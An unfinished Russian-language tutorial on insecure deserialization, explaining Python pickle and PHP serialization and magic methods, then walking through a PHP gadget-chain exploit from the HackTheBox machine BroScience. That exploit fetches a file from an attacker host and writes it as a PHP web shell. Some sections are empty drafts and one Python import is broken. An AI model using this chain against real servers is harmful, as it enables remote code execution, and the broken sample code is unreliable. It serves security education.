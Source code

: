 # Insecure Deserealization

### 1. Что такое и с чем едят?

### Начнём с  сериализации

**Сериализация** - это способ превратить **обьект** в **поток байтов**, похожих на **строку**, сделать из **огромного набора данных** просто **строчку**. Строчка же потом может использоваться или куда-нибудь передаваться **(передача данных клиента, хранение сложных объектов в базе данных, передача данных через API на разных языках программирования)**. И хоть под словом сериализация можно подразумевать **JSON**, это всё же не так. Он не поддерживает передачу классов. Но у некоторых языков существуют методы сериализации в библиотеках или в самом языке, которые как раз могут передавать классы (если это необходимо).

Приведу очень очень простой пример на Python (такие примеры будут на многих языках)
<details>
<summary>Пример сериализации на Python</summary>

Создадим класс нашего объекта:
```
class Student:
	def __init__(self, name, age, grade):
		self.name = name
		self.age = age
		self.grade = grade
```
Теперь создадим объект:
```
student = Student("Nikita",20,"SS")
```
Импортируем нашу библиотеку, сериализуем наши данные и выполним десериализацию:
```
import picle4 as picle

serialize_student = pickle.dumps(student)

deserialize_student = pickle.loads(serialize_student)
print(deserialize_student.name)
print(deserialize_student.age) // and etc
```
Подмечу, что данные будут выглядить как поток рандомных байтов, поэтому если и используют сериализацию, то её кодируют в base64.  Пример кодировки:
```
print(base64.b64encode(serialize_student)
```

У сериализованных объектов начало всегда одинаковое. Вот начало **base64 сериализованного объекта**:
**gASVR**QAAAAAAAACMCF9fbWFpbl9flIwHU3R1ZGVudJSTlCmBlH2UKIwEbmFtZZSMBk5pa2l0YZSMA2FnZZRLFIwFZ3JhZGWUjAJTU5R1Yi4=

Заметьте, что он начинается на **gASVR**. Так будет начинаться **любой сериализованный объект в python'e в base64 формате** :). Для примера ещё могу привести любую другую кодировку, но думаю это будет излишне. Можете сами поэксперементировать.
</details>
<details>
<summary>Пример сериализации на PHP</summary

**PHP** же по умолчанию поддерживает сериализацию. Дабы преобразовать наш объект в поток байтов,нам нужно написать serialize($obj). Поток будет выглядить так:

```
O:4:"User":2:{s:8:"username";s:4:"nope";s:7:"isAdmin";b:0;}
```

* **"O:4"** **O** - означает объект, **4** - длина класса объекта.  **User** - 4 символа
*  **":2"** - количество полей в самом объекте. Их **2** - **username** и **isAdmin**
*  **"s:8"** **s** обозначает **String**, т.е текстовый формат, а **8** - длина переменной **username**. Наше значение переменной **username** тоже строка длиною **4** символа. С другой переменной такая же аналогия, но её  значение имеет не **String** формат, а **bolean**, т.е либо **да** (1) либо **нет** (0)



</details>

### А зачем нужна сериализация?

Хорошо, мы поняли что есть какая-то фигня, которая может объект преобразовать в строчку каких-то байтов. И, собственно, напрашивается. А нахрена это? 
/// <Никита помоги я сам хуй знает зачем это>

/// Примеры на других япах потом дополню

### Десериализация

Наверное вы уже догадались, что **десериализация** - обратный процесс сериализации. Т.е восстановление **объекта** из **потока байтов**. Т.е тут уже мы получаем эту строчку байтов и используем как хотим :) (не мы, а код конечно же)

### Небезопасная десериализация

В общех чертах я рассказал что такое **сериализация**, **десериализация**, зачем оно нужно и показал примеры кода. Теперь нам нужно понять как мы можем это использовать. А также нам нужно выработать свою методологию поиска этой редкой вулны. На самом деле уязвимость нелегко найти при black-box тестировании, поэтому я бы отнёс её к разряду white-box. Я бы даже сказал нереально!

Очевидно, что **небезопасная десериализация** - это **небезопасный способ передачи сериализованных данных**. Т.е тех данных, которые мы можем изменить. Самый базовый пример:

Представьте, что у вас в **cookie-файлах** хранится информация о вашем юзере в **сериализованном формате**. **Cookie-файлы** хранятся у **клиента**, значит мы их можем изменить. А представьте что будет, если мы поменяем своё имя в этих сериализованных данных на admin? Полный захват учётки админа. Вот и весь простой пример.

### 2. Методология поиска

#### BlackBox



#### WhiteBox







### 3. Методы эксплуатации / читщит

<details>

<summary> PHP </summary>

Ранее мы рассмотрели простой пример с плохой логикой в файлах куки. Но это был самый простой и не очень реалистичный пример эксплуатации

Рассмотрим эксплуатацию через **Magic Methods**

**Магические методы в PHP ** - это набор некоторых методов, которые автоматически вызываются при определенных обстоятельствах.  Дока на них [здеся](https://www.php.net/manual/ru/language.oop5.magic.php). Но я более чем уверен, что вам будет влом это читать, поэтому выделю быстро и кратко некоторые из них (читать все необязательно):

 * **__construct()** - эм, ну как бы самый базовый метод при котором мы устанавливаем значения переменных. Каждый использовал, я думаю :) Метод вызывается всегда при создании объекта
 <details><summary>Пример __construct()</summary>

```
class User { 
	public  $id;
	public  $username;
	public  $email;
	private  $password;
	public  function __construct($id, $username, $email, $password) {
				$this->id = $id;
				$this->username = $username;
				$this->email = $email;
				$this->password = $password;
	}
	
$obj = new User(12, "Nope","dan@gmail.com","123456")
```

</details>


 * **__destruct()** - обратный метод констракта. Это метод класса, который вызывается автоматически при уничтожении объекта, например, когда на объект больше нет ссылок или когда выполнение программы завершается. Деструктор часто используется для освобождения ресурсов, таких как закрытие файлов или соединений с базой данных. 
<details><summary>Пример __destruct() и его срабатывание</summary>

```
class Example {
    public function __construct() {
        echo "Объект создан";
    }

    public function __destruct() {
        echo "Объект уничтожен";
    }
}


// Пример 1: Объект уничтожится, когда переменная $obj перестанет ссылаться на него
$obj = new Example();
$obj = null; // Объект уничтожится здесь


// Пример 2: Объект уничтожится при завершении скрипта
$obj = new Example();
// Конец скрипта, объект уничтожится здесь


// Пример 3: Явный вызов unset() для удаления ссылки на объект
$obj = new Example();
unset($obj); // Объект уничтожится здесь


// Пример 4: Явный вызов деструктора через метод __destruct()
$obj = new Example();
$obj->__destruct(); // Объект уничтожится здесь


// Пример 5: Объект уничтожится при выходе из функции
function createObject() {
    $obj = new Example();
}
createObject(); // Объект уничтожится здесь

```

</details>


 * **__sleep()**  - метод позволяет определить, какие свойства объекта должны быть сериализованы. Поэтому когда происходит сериализация класса, она всегда включается. К примеру. У нас есть **password** и **username**. Мы хотим выдать куку, но не вставлять в неё **password** (это было бы глупо, хранить в куки-файлах пароли). Так вот, если в **__sleep()** указать **return array('username')**, то сериализовываться всегда будет только переменная **username**. Удобно? Удобно!
<details><summary>Пример __sleep()</summary>

```
class User {
    public $id;
    public $username;
    public $email;
    private $password;

    public function __construct($id, $username, $email, $password) {
        $this->id = $id;
        $this->username = $username;
        $this->email = $email;
        $this->password = $password;
    }

    public function __sleep() {
        // Возвращаем список свойств, которые должны быть сериализованы
        return array('id', 'username', 'email');
    }
}

$user = new User(1, 'john_doe', 'john@example.com', 'secret');

$serialized = serialize($user);
echo $serialized;

// Вывод: O:4:"User":3:{s:2:"id";i:1;s:8:"username";s:8:"john_doe";s:5:"email";s:16:"john@example.com";}

```
 </details>
 
 
* **__wakeup()** - Если **__sleep()** используется при сериализации, очевидно, что wakeup при десериализации. Когда объект десериализуется с помощью функции `unserialize()`, PHP автоматически вызывает метод `__wakeup()`, если он определен в классе. Этот метод позволяет восстановить какие-либо данные или настройки объекта после десериализации.
<details><summary>Пример __wakeup()</summary>

```
class User {
    public $id;
    public $username;
    public $email;
    private $password;

    public function __construct($id, $username, $email, $password) {
        $this->id = $id;
        $this->username = $username;
        $this->email = $email;
        $this->password = $password;
    }

    public function __sleep() {
        return array('id', 'username', 'email');
    }

    public function __wakeup() {
        // Можно выполнить какие-либо действия после десериализации
        $this->password = '********'; // Обнуляем пароль
    }
}

$serialized = 'O:4:"User":3:{s:2:"id";i:1;s:8:"username";s:8:"john_doe";s:5:"email";s:16:"john@example.com";}';

$user = unserialize($serialized);

echo $user->id . "\n"; // 1
echo $user->username . "\n"; // john_doe
echo $user->email . "\n"; // john@example.com
echo $user->password . "\n"; // ********

```

</details>

* **__toString()**  - метод автоматически вызывается, когда объект требуется представить в виде строки, например, при использовании в функции **echo** или в строковом контексте
<details> <summary>Пример __toString()</summary>

```
<?php   
class TestClass  
{  
	public $foo;  
  
	public function __construct($foo){
		$this->foo = $foo;  
	}  
  
	public function __toString(){
		return $this->foo;  
	}  
}  
  
$class = new TestClass('Hello');  
echo $class; //Выведет Hello вместо ошибки
?>
```

</details>

Отлично, мы разобрали все популярные магические методы, которые используются для эксплуатации нашей уязвимости. Ну а кто не просмотрел - говнюк и всё-равно вернётся сюда для понимания. Так вот, в итоге при WhiteBox'e обращайте внимание на эти главные методы, если ищете десериализацию :) Ниже будут приведены примеры эксплоитов:


<details><summary>Через __wakeup()</summary>

Рассмотрим следующий код с тачки **BroScience** на **HTB**:

```
class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp)); 
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
?>
```

///Тут должен быть эмулятор cmd
У нас есть класс **AvatarInterface** с полями **tmp,imgPath**, а также **magic** методом **__wakeup()**
Вспоминаем когда у нас **wakeup** вызывается (при десериализации  ес чо). 
В **wakeup** есть поле **a**, которое принимает объект **Avatar** и передаёт ему в конструктор значение поля **imgPath**, а потом вызывает функцию **save** из этого объекта. Записали, запомнили. Теперь другой класс.

**Avatar**. Собственно, он принимает в конструктор файл (ну так задумано как минимум) и присваивает его своему полю **imgPath**
Функция **save** принимает в себя переменную, в которой должны быть данные для картинки (ну необязательно). Дальше она открывает файл  **imgPath** (который мы передали в конструктор через **wakeup**) для записи. Следующим шагом она записывает в **imgPath** содержимое **tmp** объекта **AvatarInterface**

(если что  file_get_contents может принимать URL вместо файла, это так особенность PHP. Наверное напишу про это когда LFI буду делать)

Подытожим:
У нас есть 2 объединенных между собой класса. Через один мы можем контролировать переменные другого, а следовательно записать произвольный файл с произвольным кодом. Только вот нам нужно найти код, который будет всю нашу парашу десериализовывать. Код под **exploit** выглядил бы так:

```
<?php
class Avatar{
	public $imgPath;
	
	public function __construct($imgPath){
		$this->imgPath = $imgPath;
	}

	public function save($tmp){
		$f = fopen($this->imgPath, "w");
		fwrite($f, file_get_contents($tmp));
		fclose($f);
	}
}

class AvatarInterface {
	public $tmp;
	public $imgPath;

	public function __wakeup(){
		$a = new Avatar($this->imgPath);
		$a->save($this->tmp);
	}
}

$avatar_interface = new AvatarInterface();
$avatar_interface->tmp = "http://<IP>/<file>"; //Сюда мы должны записать вредоносный код (типо system($_REQUEST['cmd'])
$avatar_interface->imgPath = "./abobich.php"; // Куда сохранится наш файл

$ser = serialize($avatar_interface);

echo $ser;
?>

```

Теперь, если копаться на тачке, то мы должны найти следующий фрагмент кода:

</details>





<!--stackedit_data:
eyJoaXN0b3J5IjpbLTY4Njk2ODI4Nl19
-->